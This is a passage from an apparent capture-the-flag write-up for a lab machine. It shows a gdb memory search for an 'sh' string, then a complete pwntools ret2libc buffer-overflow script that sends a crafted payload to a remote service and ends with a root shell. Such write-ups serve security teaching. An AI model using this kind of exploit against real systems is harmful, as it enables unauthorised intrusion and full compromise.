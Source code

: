 

    (gdb) find 0xf7e32000,+5000000,"sh"     
    0xf7f6ddd5
    0xf7f6e7e1
    0xf7f70a14
    0xf7f72582
    warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
    4 patterns found.



The third one is the same address from the first search, just starting
five bytes later. I can try any of the others.

### Pwn Script

I'll pull all that together into a really simple Python script:



    #!/usr/bin/env python3

    from pwn import *


    system_addr = p32(0xF7E4C060)
    exit_addr = p32(0xF7E3FAF0)
    sh_addr = p32(0xF7F6DDD5)

    payload = b"A" * 212 + system_addr + exit_addr + sh_addr

    r = remote("10.10.10.61", 32812)
    r.recvuntil("Enter Bridge Access Code:")
    r.sendline("picarda1")
    r.recvuntil("Waiting for input:")
    r.sendline("4")
    r.recvuntil("Enter Security Override:")
    r.sendline(payload)
    r.interactive()



It creates the payload with 212 bytes of junk followed by the addresses.
Then it uses [pwntools](https://github.com/Gallopsled/pwntools) to
interact with the remote system, sending the access code and menu
selection before the payload, and then dropping into an interactive
shell.

It works:



    oxdf@parrot$ python root.py 
    [+] Opening connection to 10.10.10.61 on port 32812: Done
    [*] Switching to interactive mode

    $ id
    uid=0(root) gid=0(root) groups=0(root)



